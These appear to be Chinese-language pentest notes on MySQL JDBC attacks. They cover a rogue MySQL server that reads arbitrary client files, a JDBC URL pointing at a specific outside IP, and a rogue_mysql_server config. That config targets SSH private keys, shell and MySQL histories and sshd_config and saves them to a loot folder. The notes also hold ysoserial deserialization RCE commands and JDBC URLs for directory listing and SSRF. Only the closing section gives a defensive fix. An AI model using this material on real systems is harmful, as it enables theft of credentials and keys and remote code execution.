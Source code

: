 

## [**MySQL** 服务端恶意读取客户端任意文件漏洞]

<https://cloud.tencent.com/developer/article/1818089>

如果java的mysql的jdbc连接信息可以自定义，可以修改mysql的ip和连接配置如：
```
test?allowLoadLocalInfile=true&allowUrlInLocalInfile=true#
jdbc:mysql://47.109.58.205:3306/test?allowLoadLocalInfile=true&allowUrlInLocalInfile=true#
root
password
```
可以使用下方的项目伪造一个mysql服务，从而读取客户端的文件。
<https://github.com/rmb122/rogue_mysql_server>


^
```
host: 0.0.0.0
port: 3306
version_string: "10.4.13-MariaDB-log"

file_list: ["/root/.bash_history","C:/boot.ini","/var/log/mysqld.log","/etc/os-release","/root/.mysql_history","/etc/issue","/root/.ssh/id_rsa","/var/log","/etc/ssh/sshd_config","/etc/crontab","/root/.ssh/authorized_keys","/root/.ssh/id_rsa.pub"]
save_path: ./loot
always_read: true
from_database_name: false
max_file_size: 0

auth: false
users:
  - root: root
  - root: password

jdbc_exploit: false
always_exploit: false
ysoserial_command:
  cc4: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections4", 'touch /tmp/cc4']
  cc7: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections7", 'touch /tmp/cc7']

```
```
/var/log/mysqld.log 可能有mysql密码
```

^
## **列目录和SSRF**
另外如果需要读文件, mysql-connector-java 支持使用 `file://` 列目录 (当然其他协议, 例如 http 来 SSRF 也是可以的), 但是需要在 `allowLoadLocalInfile` 为 true 之外, 额外指定 `allowUrlInLocalInfile` 为 true, 详情见[这里](https://github.com/mysql/mysql-connector-j/blob/dd61577595edad45c398af508cf91ad26fc4144f/src/main/protocol-impl/java/com/mysql/cj/protocol/a/NativeProtocol.java#L1877)\
E.g.

* 列 `/` 目录, `jdbc:mysql://127.0.0.1:3306/file%3A%2F%2F%2F?allowLoadLocalInfile=true&allowUrlInLocalInfile=true`
* SSRF `http://127.0.0.1:25565`, `jdbc:mysql://127.0.0.1:3306/http%3A%2F%2F127.0.0.1:25565?allowLoadLocalInfile=true&allowUrlInLocalInfile=true`




^
## **MySQL JDBC RCE 姿势**

mysql-connector-java >= 8.0.20, >= 5.1.49 中不可用。
利用的jdbc反序列化RCE。
<https://github.com/mysql/mysql-connector-j/commit/de7e1af306ffbb8118125a865998f64ee5b35b1b>\
<https://github.com/mysql/mysql-connector-j/commit/13f06c38fb68757607c460789196e3f798d506f2>


## **修复读文件**
原生的场景下可以使用预先定义的Properties将URL中的属性覆盖掉，就可以关闭本地文件读取以及URL读取了。

```
String driver = "com.mysql.jdbc.Driver";
String DB_URL = "jdbc:mysql://127.0.0.1:3306/test?user=test&maxAllowedPacket=655360&allowLoadLocalInfile=true";
Class.forName(driver);
Properties properties = new Properties();
properties.setProperty("allowLoadLocalInfile","false");
properties.setProperty("allowUrlInLocalInfile","false");
properties.setProperty("allowLoadLocalInfileInPath","");
Connection conn = DriverManager.getConnection(DB_URL,properties);
```

